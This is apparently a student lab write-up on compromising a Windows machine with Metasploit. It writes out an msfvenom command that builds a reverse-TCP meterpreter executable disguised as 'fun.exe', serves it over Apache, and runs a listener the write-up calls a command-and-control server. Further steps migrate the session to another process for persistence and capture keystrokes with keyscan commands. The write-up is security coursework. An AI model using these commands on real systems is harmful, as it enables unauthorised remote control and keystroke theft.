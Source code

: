 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit

### Developed By   :  SANJAY M
### Register No    : 212223230187

# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


Find the attackers ip address using ifconfig



![{3424BE28-66DF-47AA-B62D-A4C3D46A49E7}](https://github.com/user-attachments/assets/d39170cb-ae83-4e56-8a8a-2d39c7364170)



Create a malicious executable file fun.exe using msfvenom command


msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe


![{82C3B552-FFA8-44E1-A54C-BC3D3FCE8738}](https://github.com/user-attachments/assets/b87cdb49-50a5-42d3-9381-ad0d1cc985c6)


copy the fun.exe into the apache /var/www/html folder


![{1CCEB4E8-D88B-4EA0-AB56-5497B1B366F9}](https://github.com/user-attachments/assets/2f8dee6b-7453-4ba6-bc32-0cc20c7c3f16)



Start apache server


sudo systemctl apache2 start

![{4B01427D-3EE4-49D5-B9F4-5D008690DFE5}](https://github.com/user-attachments/assets/2cb87178-558b-4759-bbf7-d42185fc3507)


Check the status of apache2


![{56B70F00-52BB-4853-B38F-B9572A436F33}](https://github.com/user-attachments/assets/99d117e3-2a0a-4201-b804-45d20a402459)


Invoke msfconsole:


![{0127CD56-6237-4EF8-916E-84EB20ED1F1C}](https://github.com/user-attachments/assets/04afa8b9-fc04-4ce8-b192-1f6091fa909e)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.



![{1701D860-73ED-40A2-8956-1C111C9715BE}](https://github.com/user-attachments/assets/8762ea2b-2997-4677-80de-0349418dc377)


Starting a command and control Server


use multi/handler


set PAYLOAD windows/meterpreter/reverse_tcp


set LHOST 0.0.0.0


exploit


![{732CC25B-2340-4B26-A4DD-A3A6F53E9B5A}](https://github.com/user-attachments/assets/2488740a-eae6-4cb7-bc98-ced2a35e38f8)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP 


address of your Kali machine:


http://192.168.1.2/fun.exe


The file "fun.exe" downloads. 


![{88B12FA3-F48D-4C84-888B-FC8E24DB9AB0}](https://github.com/user-attachments/assets/df6b2137-4570-4d70-9714-46882d54a171)




![{5C817246-750A-44B2-91E8-187FD4DD6886}](https://github.com/user-attachments/assets/2c5ee8f1-6368-4caf-a3f5-e386a498bf8c)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.



![image](https://github.com/user-attachments/assets/9d525416-77ad-4cb4-b603-7928327334c5)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.


![image](https://github.com/user-attachments/assets/1ac801cb-b91f-4f14-80cb-384388677348)


keyscan_dump Shows the keystrokes captured so far


![image](https://github.com/user-attachments/assets/35733c10-3e56-413a-a1ea-c40fb7d54b8d)


## RESULT:
The Metasploit framework for reconnaissance is examined successfully
